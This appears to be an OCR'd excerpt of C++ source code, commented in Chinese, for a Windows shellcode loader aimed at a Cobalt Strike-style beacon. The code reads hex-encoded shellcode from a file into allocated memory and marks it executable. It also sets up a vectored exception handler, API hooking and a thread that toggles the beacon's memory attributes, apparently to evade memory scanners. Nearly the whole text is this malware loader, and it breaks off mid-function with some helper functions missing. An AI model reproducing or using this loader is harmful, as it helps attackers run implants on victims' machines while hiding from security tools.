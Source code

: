     // 将十六进制中的单个字符转换为相应的整数值  
    unsigned char hexCharToByte(char character) {  
    if (character >= '0' && character <= '9') {  
    return character - '0';  
    }  
    if (character >= 'a' && character <= 'f') {  
    return character - 'a' + 10;  
    }  
    if (character >= 'A' && character <= 'F') {  
    return character - 'A' + 10;  
    }  
    return 0;  
    }  
      
    // 将十六进制字符串转换成字节型数组  
    void hexStringToBytes(const std::string& hexString, unsigned char* byteArray, int byteArraySize) {  
    for (int i = 0; i < hexString.length(); i += 2) {  
    byteArray[i / 2] = hexCharToByte(hexString[i]) * 16 + hexCharToByte(hexString[i + 1]);  
    }  
    }  
      
      
    int main()  
    {  
      
    hEvent = CreateEvent(NULL, TRUE, false, NULL); // 创建事件(一开始无信号)  
      
    AddVectoredExceptionHandler(1, &FirstVectExcepHandler); // 添加异常处理函数  
      
    Hook(); //开始Hook  
      
    //创建线程  
    HANDLE hThread1 = CreateThread(NULL, 0, Beacon_set_Memory_attributes, NULL, 0, NULL);  
    CloseHandle(hThread1);  
      
      
    std::ifstream file("beacon_hex.txt");  //打开指定文件  
    size_t size;  //定义文件内容的字节数  
    string contents; //定义文件内容  
      
    //判断文件是否打开成功  
    if (file.is_open()) {  
    std::stringstream buffer; //创建一个stringstream对象  
    buffer << file.rdbuf();  //将文件的内容复制到该流中  
    contents = buffer.str();  //将stringstream对象的内容转换string,并将其存储在contents中  
      
    size = contents.length() / 2;  //由于两个十六进制相当于一个字节,因此文件内容长度需除以2  
    file.close();  //关闭文件  
    }  
      
    // 为shellcode申请一块内存  
    shellcode_addr = VirtualAlloc(NULL, size, MEM_COMMIT, PAGE_READWRITE);  
      
    // 调用函数将十六进制字符串转换为字节型数组  
    hexStringToBytes(contents, (unsigned char *)shellcode_addr, size);  
      
    // 修改内存属性为可读写  
    VirtualProtect(shellcode_addr, size, PAGE_EXECUTE_READWRITE, &Beacon_Memory_address_flOldProtect);  
      